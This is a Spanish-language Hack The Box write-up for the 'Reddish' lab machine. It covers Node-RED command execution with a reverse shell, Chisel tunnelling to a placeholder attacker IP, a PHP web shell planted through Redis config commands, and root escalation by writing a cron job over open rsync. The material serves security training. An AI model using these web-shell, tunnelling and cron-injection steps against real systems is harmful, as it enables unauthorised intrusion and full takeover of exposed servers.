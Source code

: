 ```yaml
---
title: "Hack The Box - Reddish"
description: "Obtener acceso root en un entorno multi-contenedor que incluye Redis, Node-RED y Rsync."
pubDate: 2025-08-26
draft: false
---
```

**IP:** `10.10.10.94`  
**OS:** Linux (multi-container environment)  
**Dificultad:** Insane 

---

## 🧭 Enumeración Inicial
```bash
curl -s -X POST http://10.10.10.94:1880/
```
Devuelve una estructura de flujo que sugiere acceso a **Node-RED** con ejecución de comandos. Se carga una reverse shell mediante el flujo.

---

## 🐚 Acceso Inicial
- Se usa el flujo de Node-RED para ejecutar una reverse shell apuntando a nuestro listener.
- Dentro del contenedor, se observan dos interfaces de red: `172.18.0.2` y `172.19.0.4`.

---

## 🌐 Enumeración de la red
Se usa un script personalizado para escanear los rangos internos (172.18.0.0/16 y 172.19.0.0/16).  
Se detectan múltiples servicios accesibles:

- `172.19.0.2:6379` – Redis
- `172.19.0.3:80` – Web
- `172.19.0.4` – Node-RED (usado)

---

## 🔁 Port Forwarding con Chisel
```bash
# En atacante:
./chisel server --reverse -p 1234

# En víctima:
./chisel client <IP_ATACANTE>:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
```

---

## 🧠 Redis Exploitation
Se puede usar Redis para escribir archivos directamente en el servidor web.
```bash
echo "<?php system($_REQUEST['cmd']) ?>" > cmd.php
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli config set dir /var/www/html/<ruta>
redis-cli config set dbfilename "cmd.php"
redis-cli save
```
Se obtiene ejecución remota de comandos por web:  
`http://<host>/cmd.php?cmd=id`

---

## 🛠 Reverse Shell desde backup
Se usa `socat` y una reverse shell Perl desde un endpoint vulnerable.

---

## 🧪 Rsync + Cron Exploit (Privesc)
Desde el contenedor web se detecta host `backup (172.20.0.2)` con Rsync.

```bash
# Creamos archivo cron:
echo '* * * * * root sh /tmp/reverse.sh' > reve
rsync reve rsync://backup:873/src/etc/cron.d
```

Se sube script con reverse shell:
```bash
rsync reverse.sh rsync://backup:873/src/tmp/reverse.sh
```

---

## 👑 Root Access
Al activarse el cron job, se recibe una shell como `root@backup`.

```bash
whoami
# root
```

---

## 🧾 Conclusiones
- Máquina interesante por su diseño multi-contenedor.
- Se combinan técnicas: RCE via Node-RED, explotación de Redis, port forwarding con Chisel, y escalada vía Rsync+cron.
- Refuerza conceptos de post-explotación en entornos internos aislados.

✅ ¡Rooted!
